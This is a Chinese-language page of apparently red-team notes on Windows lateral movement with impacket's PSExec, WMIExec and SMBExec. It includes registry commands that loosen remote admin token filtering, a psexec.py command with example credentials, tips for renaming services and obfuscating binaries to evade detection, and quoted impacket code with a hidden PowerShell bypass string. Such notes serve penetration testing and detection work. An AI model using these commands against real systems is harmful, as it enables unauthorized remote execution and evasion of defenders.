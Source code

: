 要允许非RID 500本地管理员账户执行Wmi或PsExec，请执行：
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /f /d 1`
要防止RID 500能够WmiExec或PsExec，请执行：
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /f /d 1`

### PSExec

与其上传`psexeccsv`服务二进制文件，不如上传一个具有任意名称的服务二进制文件到`ADMIN$`。
PSExec默认的[kavika13/RemCom](https://github.com/kavika13/RemCom)二进制文件已有10年的历史，您可能需要重新构建并混淆它以减少检测([snovvcrash/RemComObf.sh](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb))

使用自定义二进制文件和 服务名称：`psexec.py Administrator:Password123@IP -service-name customservicename -remote-binary-name custombin.exe`

还可以使用参数指定自定义文件：`-file /tmp/RemComSvcCustom.exe`。
您需要更新第163行中的管道名称以匹配“Custom_communication”

```py
162    tid = s.connectTree('IPC$')
163    fid_main = self.openPipe(s,tid,r'\RemCom_communicaton',0x12019f)
```

或者，您可以使用分支[ThePorgs/impacket](https://github.com/ThePorgs/impacket/pull/3/files)。

### WMIExec

使用非默认共享`-share SHARE`来写入输出，以减少检测。
默认执行此命令：`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__RANDOM 2>&1`

### SMBExec

它创建了一个名为`BTOBTO`的服务（[smbexec.py#L59](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L59)），并将攻击者的命令从批处理文件中传输到`%TEMP/execute.bat`（[smbexec.py#L56](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L56)）。

```py
OUTPUT_FILENAME = '__output'
BATCH_FILENAME  = 'execute.bat'
SMBSERVER_DIR   = '__tmp'
DUMMY_SHARE     = 'TMP'
SERVICE_NAME    = 'BTOBTO'
```

每次我们执行命令时，它都会创建一个新服务。它还会生成事件7045。

默认执行此命令：`%COMSPEC% /Q /c echo dir > \\127.0.0.1\C$\__output 2>&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat`，其中`%COMSPEC%`指向`C:\WINDOWS\system32\cmd.exe`。

```py
class RemoteShell(cmd.Cmd):
    def __init__(self, share, rpc, mode, serviceName, shell_type):
        cmd.Cmd.__init__(self)
        self.__share = share
        self.__mode = mode
        self.__output = '\\\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
        self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
        self.__outputBuffer = b''
        self.__command = ''
        self.__shell = '%COMSPEC% /Q /c '
        self.__shell_type = shell_type
        self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
        self.__serviceName = serviceName
```
